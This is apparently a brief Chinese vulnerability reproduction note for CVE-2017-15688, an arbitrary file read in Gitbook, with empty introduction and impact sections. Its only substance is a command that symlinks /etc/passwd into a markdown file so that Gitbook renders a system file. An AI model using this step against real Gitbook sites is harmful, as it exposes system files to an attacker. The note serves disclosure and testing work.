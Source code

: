 # CVE-2017-15688 Gitbook 任意文件读取

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

创建一个md文件，代码用以下


```bash
ln -s /etc/passwd ./passwd.md
```

![](images/15890288890798.png)
